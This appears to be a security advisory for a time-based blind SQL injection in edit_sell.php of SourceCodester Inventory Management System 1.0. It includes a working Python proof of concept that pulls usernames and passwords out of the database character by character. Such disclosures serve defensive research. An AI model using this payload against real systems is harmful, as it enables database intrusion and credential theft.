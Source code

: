 # SourceCodester Inventory Management System 1.0 has a SQL Injection vulnerability in edit_sell.php
## Software

- Software: Inventory Management System 1.0
- Software Link: https://www.sourcecodester.com/php/16741/free-and-open-source-inventory-management-system-php-source-code.html
- Vulnerability Type: SQL Injection
- Attack Type: Remote
- Vendor of Product: Sourcecodester

## Description

A vulnerability has been found in SourceCodester Inventory Management System 1.0 and classified as critical. SourceCodester Inventory Management System 1.0 has a SQL Injection vulnerability in edit_sell.php. Affected is file edit_sell.php, the manipulation of the argument id leads to SQL injection. Remote attackers can exploit SQL time-based blind injection to retrieve all data from the database.

## Vulnerability Code

- app/action/edit_sell.php
- 
![](https://github.com/Yesec/Inventory-Management-System/assets/19534204/8ac8ea3d-75c7-4da9-8d9a-2d8780a784f5)


## POC
```python
import time 
import requests
import string 

dict = string.digits + string.ascii_lowercase + string.punctuation
res = ""
dealy = 2

for i in range(1,50):
    for j in dict:
        start = time.time()
        # payload = {"up_pid[0]":'1 and if(substr(database(),%s,1)="%s",sleep(2),1)' % (i,j)}
        payload = {"up_pid[0]":'1 and if(substr((select group_concat(username,password) from user),%s,1)="%s",sleep(2),1)' % (i,j)}
        req = requests.post("http://localhost/app/action/edit_sell.php", data=payload)
        end = time.time() - start
        if end > dealy:
            res += j
            print('[*] Found:' + res)
            break
```

![](https://github.com/Yesec/Inventory-Management-System/assets/19534204/c6c0bd7b-e7ce-4ba2-b800-726bb2edf2b0)
